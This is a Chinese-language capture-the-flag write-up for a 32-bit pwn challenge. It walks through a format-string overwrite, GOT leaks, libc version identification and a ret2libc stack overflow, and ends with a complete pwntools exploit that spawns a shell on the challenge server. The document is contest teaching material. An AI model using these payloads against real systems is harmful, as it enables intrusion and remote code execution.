


# wp

## 题面
Ready to begin the game? A simple conversation can change everything.  
附件：attachment-9
## 分析
checksec 查看保护：  
```
❯ pwn checksec --file=attachment-9
[*] '/data/project/ctf-repo/pwn/iscc2026/permission/attachment-9'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8044000)
    Stripped:   No
```

就 NX 保护，无法在栈上写 shellcode，对本题确实有些影响。  
其他保护没开哈哈哈哈，太好了。  

ida 分析代码，其实很清晰：  
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [esp+0h] [ebp-28h] BYREF
  int *p_argc; // [esp+20h] [ebp-8h]

  p_argc = &argc;
  init();
  puts("Ready to begin the game? A simple conversation can change everything.");
  puts("Hope you have a good time here.");
  memset(s, 0, sizeof(s));
  read(0, s, 0x20u);
  printf(s); // 字符串漏洞
  if ( *(_DWORD *)x == 5 ) // 应该将 x(.data 段) 改写为 5 才能继续
    vuln();
  else
    puts("Alright, it doesn't matter.");
  return 0;
}
```
main 函数给了一个字符串漏洞，要写入 .data 段数据才能跳到 vlun函数。  
读到 x 地址为 `0x0804C034`。  
不过 x 只是一个指针，这里对 x 解引用，也就是读 x 存储地址的值。  
仔细看看 ida ：
``` asm
.data:0804C030                 public target_val
.data:0804C030 target_val      db    3                 ; DATA XREF: .data:x↓o
.data:0804C031                 db    0
.data:0804C032                 db    0
.data:0804C033                 db    0
.data:0804C034                 public x
.data:0804C034 x               dd offset target_val    ; DATA XREF: main+7B↑r
.data:0804C034 _data           ends
```
x 存储的是 target_val 的地址。而 target_val 地址是 0x0804C030。我们要改写的一个是 target_val。  
通过 pwndbg 也可以看出来：
``` asm
pwndbg> x 0x0804C034                                              
0x804c034 <x>:	0x0804c030
```

``` c
ssize_t vuln()
{
  _BYTE buf[140]; // [esp+8h] [ebp-90h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```
vuln 给了超大 read，可以栈溢出。  
分析发现没有 /bin/sh 没有 system 的入口。看来需要 ret2libc。  
问题是题目没给 libc，需要自己去确认版本。大坑就在这里……  
也就是说，我们需要去泄露 libc 里面的地址，通过偏移量去寻找对应版本的 glibc，这一步极其麻烦恶心。  

只要找到 libc，得到基址，就可以借此得到 system 和 /bin/sh 的地址，最后栈溢出拿到 shell。  

## exp
首先要进入 vuln，先改写 target_val 变量(而不是 x，x 只是一个整形指针)。  
``` python
from pwn import *

io = connect("39.96.193.120", 10000)

payload = b"aaaa" + b" %p" * 10
io.recvuntil(b"Hope you have a good time here.\n")
io.sendline(payload)

io.interactive()
```

小试一手就拿到偏移量为 4 了。  
接下来通过字符串漏洞写入地址。  
需要写入 5 ，使用 %5c 得到 5 个空格，再利用 %n 写入 int 大小的数据。同时还得拿到 libc_start_main 的真实地址以获得 libc 基址。  
简单测算下：%5c%N$n%M$s 一共 11 字节，补上 1 字节对齐。后面地址往后偏移到 7 的位置。所以 N = 7, M = 8。  

使用 __libc_start_main 来得到 libc 地址，需要拿到 __libc_start_main 的 got 地址。  

先试下改写 target_val:
```python
target_value_addr = 0x0804C030
payload = b"%5c%6$na" + p32(target_value_addr)
io.recvuntil(b"Hope you have a good time here.\n")
io.sendline(payload)
io.interactive()
```
成功:
```
    \xd0a0\xc0\x04\x08
Input:
$  
```
我们把总的 exp 片段放进来:
``` python
libc_start_main_got = elf.got['__libc_start_main']
target_value_addr = 0x0804C030

payload = b"%5c%7$n%8$sa" + p32(target_value_addr) + p32(libc_start_main_got)

io.recvuntil(b"Hope you have a good time here.\n")
io.sendline(payload)
```
这里会有 5 个空格，之后第 5 ~ 8 位就是 __libc_start_main 的地址。  
通过一些字符串小技巧截取：
``` python
raw = io.recv(10)
libc_leaked_addr = u32(raw[5:9])
print(hex(libc_leaked_addr))
```
得到地址为:0xf7d77de0。  
这时候坑人的地方来了。通过这个其实是可以用 de0 这个偏移量去找可能的 glibc 版本。但可能有非常多种可能。  
我们使用 [https://libc.rip/](https://libc.rip/) 寻找。可能有：
```
libc6_2.18-0ubuntu1_amd64
libc6_2.18-0ubuntu3_amd64
libc6-i386_2.31-0ubuntu9.11_amd64
libc6_2.18-0ubuntu6_amd64
libc6-i386_2.31-0ubuntu9.8_amd64
libc6_2.3.5-1ubuntu12_i386
libc6_2.18-0ubuntu7_amd64
libc6_2.18-0ubuntu5_amd64
libc6_2.18-0ubuntu2_amd64
libc6-i386_2.5-0ubuntu14_amd64
```
我们还需要再泄露一个函数来缩小范围。  
来个小 treat:
``` python
target_value_addr = 0x0804C030

elf = ELF("./attachment-9")
read_got = elf.got["read"]
put_got = elf.got["puts"]
payload = b"%5c%7$n%8$sa" + p32(target_value_addr) + p32(read_got)
io.recvuntil(b"Hope you have a good time here.\n")
io.sendline(payload)
raw = io.recv(10)
leaked = u32(raw[5:9])
print(hex(leaked))

io.interactive()
```
获得 read 地址为 0xf7dfa790，取 790 再去查找。  
最后我们缩小到：
```
libc6-i386_2.31-0ubuntu9.17_amd64
libc6-i386_2.31-0ubuntu9.18_amd64
```
我们取第一个试成功了。  
接下来就是下载该运行库。  
我们需要拿到 libc 基址、system 地址、/bin/sh 地址。  
``` python
print("leaked address:  ", hex(libc_leaked_addr))
libc_base = libc_leaked_addr - libc.symbols['__libc_start_main']
print("base address: ", hex(libc_base))
system_addr = libc_base + libc.symbols['system']
print("system address: ", hex(system_addr))
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh\x00"))
print("/bin/sh address: ", hex(bin_sh_addr))
```
之后就是构建栈溢出。  
通过 ida 看出需要覆盖 0x90 + 0x4 = 0x94 的空间。后面放 system 相关参数。 0x200 绰绰有余。  
最后：
``` python
payload = b"a" * (0x90 + 0x4) + p32(system_addr) + b"bbbb" + p32(bin_sh_addr)
io.recvuntil(b"Input:\n")
io.sendline(payload)
io.interactive()
```

之后就拿到 flag 啦！



## 完整 exp
``` python
from pwn import *
from LibcSearcher import *

context(log_level="debug")
context.gdb_binary = "/bin/pwndbg"

elf = ELF("./attachment-9")
libc = ELF("./libc6-i386_2.31-0ubuntu9.17_amd64.so")

#io = process("./attachment-9")
io = connect("39.96.193.120", 10000)

libc_start_main_got = elf.got['__libc_start_main']
target_value_addr = 0x0804C030

payload = b"%5c%7$n%8$sa" + p32(target_value_addr) + p32(libc_start_main_got)

io.recvuntil(b"Hope you have a good time here.\n")
io.sendline(payload)
raw = io.recv(10)
libc_leaked_addr = u32(raw[5:9])
print("leaked address:  ", hex(libc_leaked_addr))
libc_base = libc_leaked_addr - libc.symbols['__libc_start_main']
print("base address: ", hex(libc_base))
system_addr = libc_base + libc.symbols['system']
print("system address: ", hex(system_addr))
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh\x00"))
print("/bin/sh address: ", hex(bin_sh_addr))
payload = b"a" * (0x90 + 0x4) + p32(system_addr) + b"bbbb" + p32(bin_sh_addr)
io.recvuntil(b"Input:\n")
io.sendline(payload)
io.interactive()
```

## 后记
感谢学长的指导！！！  
昨天晚上 9 点一直写到快凌晨 2 点才睡。刚把本地打通。第二天中午回来又再试各种方式才得到正确 libc 打通远程。  



